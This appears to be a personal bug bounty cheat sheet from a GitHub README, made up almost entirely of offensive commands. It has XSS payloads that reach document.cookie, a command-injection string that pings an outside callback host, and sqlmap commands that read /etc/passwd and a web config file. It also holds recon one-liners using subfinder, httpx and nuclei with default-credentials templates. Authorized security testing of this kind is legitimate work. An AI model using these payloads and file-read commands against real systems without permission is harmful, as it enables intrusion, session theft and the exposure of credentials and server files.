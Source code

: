 # Bug Bounty Personal Tips

## Recon 

## HTTPX 

```/home/kali/go/bin/httpx -l X -ss ```

## XSS
```  : /"><script>alert(document.cookie)</script> ```
``` %27)+O+%22%3E%3Cscript%3Ealert(document.domain);%3C/script%3E ```

## SSRF 
``` galletita ; ping -c 1 burp.oastify.com ```

## SQLMAP
```
sqlmap -u "http://X/dashboard/dashboard.php" \
--data "search=34" \
--cookie "PHPSESSID=X" \
--batch --random-agent \
--file-read="/etc/passwd"
```
```
sqlmap -u "http://X/dashboard/dashboard.php" \
--data "search=34" \
--cookie "PHPSESSID=X" \
--batch --random-agent \
--file-read="/var/www/html/config.php"
```

### OTHERS
``` assetfinder X.com | tee -a /tmp/X.txt```
``` cat /tmp/X.txt | httprobe -p http:81 -p https:8443 -p http:8000 -p http:8001 -p http:8181 -t 40000 | tee -a /tmp/X.txt ```
```  nuclei -l p.txt -t cves/ -t default-credentials/ -o priceline_results.txt -p http://192.168.100.2:1337```
``` subfinder -d X | /home/kali/go/bin/httpx -u -status-code -title -tech-detect -follow-redirects -timeout 5 ```
``` site:*.com.ar "bug bounty" OR "vulnerability disclosure" OR "security policy" ```

